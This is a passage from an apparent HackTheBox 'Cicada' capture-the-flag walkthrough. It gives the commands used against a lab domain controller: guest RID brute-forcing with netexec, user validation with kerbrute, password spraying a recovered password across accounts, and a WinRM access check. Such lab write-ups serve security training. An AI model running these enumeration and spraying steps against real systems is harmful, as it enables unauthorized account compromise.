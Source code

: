 We clean the output:

``` bash
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep 'SidTypeUser' > users.txt
cat users.txt
```

![netexec_users](GitHubv2/HackTheBox/EASY/Cicada/screenshots/netexec_users.png)

We can further clean this list and keep only the final usernames with:

``` bash
cat users.txt | tr '\\' ' ' | awk '{print $7}' > users_clean.txt
cat users_clean.txt
```

![netexec_users_clean](GitHubv2/HackTheBox/EASY/Cicada/screenshots/netexec_users_clean.png)

---

### 2.8 Validating Users with Kerbrute

We confirm which accounts are valid in the domain:

``` bash
kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt
```

![kerbrute_users_clean](GitHubv2/HackTheBox/EASY/Cicada/screenshots/kerbrute_users_clean.png)

---

### 2.9 Password Spraying with Known Password

**Note:** Password spraying tests one password across many accounts to avoid triggering account lockouts. This is especially useful when lockout policies are strict.

We test the recovered password against all valid users:

``` bash
netexec smb 10.10.11.35 -u users_clean.txt -p credentials.txt
```

![netexec_users_credentials](GitHubv2/HackTheBox/EASY/Cicada/screenshots/netexec_users_credentials.png)

The password matches the account `michael.wrightson`.

---

## 3. Foothold

### 3.1 Testing WinRM Access

We check whether `michael.wrightson` has WinRM access:

``` bash
netexec winrm 10.10.11.35 -u 'michael.wrightson' -p credentials.txt
```
